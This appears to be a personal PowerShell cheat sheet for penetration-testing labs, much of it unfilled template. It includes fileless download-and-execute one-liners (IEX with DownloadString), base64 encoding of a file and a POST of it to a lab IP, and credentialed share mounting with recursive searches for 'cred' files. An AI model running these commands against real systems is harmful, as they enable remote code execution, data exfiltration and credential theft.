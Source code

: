 # Powershell

_What this tool does and when I reach for it_

## Primary Use Cases

Main things I use this tool for

## Command Patterns

Decode base64 to file
```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("base64 conten"))
```
^decode-base64-to-file

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
^encode-file-contents-to-base64

Get file MD5 hash
```powershell
Get-FileHash <file> -Algorithm md5 | Select Hash
```
^get-file-md5-hash

```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```
^downloadfile-method

```powershell
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>','<Output File Name>')
# or
(New-Object Net.WebClient).DownloadString('<Target File URL>','<Output File Name>') | IEX
```
^downloadstring-method-fileless

```powershell
Invoke-WebRequest <Target File URL> -OutFile <Output File Name> -UseBasicParsing
```
^outfile-invoke-webrequest

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```
^b64-file-content-variable

```powershell
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
^post-b64-file-content
### Category 2

**Get-ChildItem** is the PowerShell equivalent of dir
```powershell
Get-ChildItem \\192.168.220.129\Finance\
```

can also be used to find how many files are in the shared folder and their sub-directories
```powershell
(Get-ChildItem -File -Recurse | Measure-Object).Count
```

**-Include** can be used to search for specific files
```powershell
Get-ChildItem -Recurse -Path N:\ -Include *cred* -File
```

**Select-String** is the PowerShell equivalent of grep or findstr, using regular expressions to search for text patterns in files
```powershell
Get-ChildItem -Recurse -Path N:\ | Select-String "cred" -List
```

**New-PSDrive** is the PowerShell equivalent of net use
```powershell
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem"
```

New-PSDrive can be used with credentials using a **PSCredential** object.
```powershell
$username = 'plaintext'
$password = 'Password123'
$secpassword = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secpassword
New-PSDrive -Name "N" -Root "\\192.168.220.129\Finance" -PSProvider "FileSystem" -Credential $cred
```

### Category 3

Brief description of this category

command syntax ^powershell-category3

## Syntax I Forget

- Flag or option I always look up
- Parameter format I can't remember
- Output options or file formats

## When I Use This vs Alternatives

- **Use this tool when:** Specific circumstances
- **Use alternative when:** When other tools are better
- **Combines well with:** Tools that work together with this

## Personal Notes

- Things I learned from experience
- Common mistakes I made
- Environment-specific quirks

## CTF Examples

```dataview
TABLE file.name as "Box", choice(contains(file.tags, "easy"), "🟢", choice(contains(file.tags, "medium"), "🟡", "🔴")) as "Diff"
FROM "06-CTF-Writeups" AND #powershell
SORT file.ctime DESC
LIMIT 5
```

## Quick Links

- [[Primary-Technique]] - Main technique this supports
- [[Secondary-Technique]] - Other technique this supports

#powershell #tool